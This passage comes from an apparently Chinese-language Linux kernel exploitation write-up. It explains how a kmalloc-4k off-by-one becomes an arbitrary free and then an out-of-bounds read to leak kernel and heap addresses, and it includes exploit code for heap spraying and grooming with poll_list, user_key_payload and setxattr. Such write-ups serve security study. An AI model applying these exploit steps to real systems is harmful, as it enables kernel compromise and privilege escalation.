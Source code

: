 ## 4. 漏洞利用 - 泄露内核基址和堆地址

**任意释放**：首先，利用 kmalloc-4k 的 off-by-one 来篡改相邻的 `poll_list->next` 指向另一个 `kmalloc-32`，超时后对象自动释放。

**越界读**：将任意释放转化为 OOB read 原语，所以需要选取一个弹性对象。[simple_xattr](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/xattr.h#L77)不能用，因为其前8字节不为NULL；由于没有禁用 *add_key()* 和 *keyctl()*，所以可以采用 [user_key_payload](https://elixir.bootlin.com/linux/v5.10.127/source/include/keys/user-type.h#L27) 。

**前8字节清零**：问题是，该对象的第1个成员 `struct rcu_head rcu` 没有被初始化，所以不一定为NULL，我们可以在分配 user key 之前采用 [setxattr()](https://elixir.bootlin.com/linux/v5.10.127/source/fs/xattr.c#L511) 来将堆块清0。具体方法是，在调用 `alloc_key()` 之前先调用 `setxattr()` ，由于 freelist 的 LIFO 特性，`setxattr()` 分配的对象会被 [user_key_payload](https://elixir.bootlin.com/linux/v5.10.127/source/include/keys/user-type.h#L27) 复用。

```c
static long
setxattr(struct dentry *d, const char __user *name, const void __user *value,
	 size_t size, int flags)
{
    [...]
    
    if (size > XATTR_SIZE_MAX)
        return -E2BIG;
    kvalue = kvmalloc(size, GFP_KERNEL); 		// [1] 分配任意 size
    if (!kvalue)
        return -ENOMEM;
    if (copy_from_user(kvalue, value, size)) { 	// [2] 填充任意数据
        error = -EFAULT;
        goto out;
    }
    
    [...]

out:
    kvfree(kvalue); 							// [3] 自动释放

    return error;
}
```

写exp如下。执行以下代码后，内存布局如下图所示，白色表示未分配的块，绿色表示 `poll_list`，橘色表示 `user_key_payload`。

```c
    [...]

    assign_to_core(0); 				// [1] 首先绑定到 CPU0 执行 —— sched_setaffinity()

    for (int i = 0; i < 2048; i++) 	// [2] 堆风水: 喷射 seq_operations 结构来填充 kmalloc-32
        alloc_seq_ops(i);

    for (int i = 0; i < 72; i++)
    {   
        setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32); 		// [3] 调用 add_key() 向 kmalloc-32 喷射 user_key_payload, 注意在这之前调用 setxattr() 将堆块清0（前8字节必须为0）
    }
    
    for (int i = 0; i < 14; i++)
        create_poll_thread(i, 4096 + 24, 3000, false); 	// [4] 喷射 poll_list kmalloc-4k+kmalloc-32

    for (int i = 72; i < MAX_KEYS; i++) 
    {
        setxattr("/home/user/.bashrc", "user.x", data, 32, XATTR_CREATE);
        keys[i] = alloc_key(n_keys++, key, 32); 		// [5] 喷射更多的 user_key_payload, 填充slab
    }
    
    [...]
```